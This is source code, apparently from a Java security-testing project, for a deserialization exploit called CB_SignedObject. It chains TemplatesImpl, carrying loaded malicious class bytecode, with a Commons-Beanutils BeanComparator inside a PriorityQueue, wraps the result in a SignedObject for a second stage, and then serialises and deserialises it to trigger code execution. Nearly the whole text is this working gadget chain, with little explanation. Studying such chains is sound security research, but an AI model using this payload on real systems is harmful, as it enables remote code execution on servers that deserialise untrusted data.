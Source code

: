 ```bash
import java.util.PriorityQueue;

public class CB_SignedObject {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        PriorityQueue queue1 = getpayload(obj, "outputProperties");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getpayload(signedObject, "object");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static PriorityQueue<Object> getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator, "property", string);
        setFieldValue(priorityQueue, "queue", new Object[]{object, null});
        return priorityQueue;
    }
}
```
